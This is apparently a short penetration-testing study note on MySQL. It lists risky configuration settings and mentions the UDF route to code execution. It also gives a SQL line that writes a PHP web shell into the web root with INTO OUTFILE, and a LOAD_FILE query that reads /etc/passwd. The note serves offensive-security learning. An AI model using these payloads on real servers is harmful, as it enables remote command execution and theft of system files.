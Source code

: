 Config file: `/etc/mysql/mysql.conf.d/mysqld.cnf` 
Nmap script: _mysql*_

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```
### Dangerous Settings

| **Settings**       | **Description**                                                                                                                                                                                                                                                           |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `user`             | Sets which user the MySQL service will run as.                                                                                                                                                                                                                            |
| `password`         | Sets the password for the MySQL user.                                                                                                                                                                                                                                     |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.                                                                                                                                                                         |
| `debug`            | This variable indicates the current debugging settings                                                                                                                                                                                                                    |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur.                                                                                                                                                              |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations. (for example by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function). |
> `system schema` (`sys`) and `information schema` (`information_schema`) are most important databases.

If [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) are allowed, we can execute C/C++ code as a function within SQL ([GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys))

# Write Local Files
`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can write to a location in the file system that executes our commands for us.
```mysql
> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
>**NOTE:** a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations as mentioned. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
# Read File
```mysql
> select LOAD_FILE("/etc/passwd");
```
# Tools
- [[Tools/Linux/Database/MySQL]]
- [[dbeaver]]